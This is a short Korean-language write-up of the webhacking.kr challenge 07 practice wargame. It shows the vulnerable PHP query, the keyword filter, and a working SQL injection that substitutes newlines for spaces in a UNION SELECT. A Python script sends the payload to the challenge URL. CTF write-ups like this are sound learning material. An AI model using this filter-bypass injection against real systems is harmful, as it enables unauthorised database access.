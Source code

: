 ================================================================================================================
[webhacking.kr] 07
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="val='+'1)%0aunion%0aselect%0a3-1%23)",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
    }

|

server -> DB
================================================================================================================

- PHP
- GET 파라미터: val

.. code-block:: sql
    
    select lv from lv1 where 
    lv=($_GET[val])

|

union select
================================================================================================================

- eregi로 필터링되는 함수를 제외하여 rand가 1일 때 실행할 수 있는 쿼리문을 작성해보자.
- eregi("--|2|50|\+|substring|from|infor|mation|lv|%20|=|!|<>|sysM|and|or|table|column",$ck)


.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-07/index.php?val='+'1)%0aunion%0aselect%0a3-1%23)"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    
    r = requests.get(url, cookies = cookies, verify=False)

    print r.content
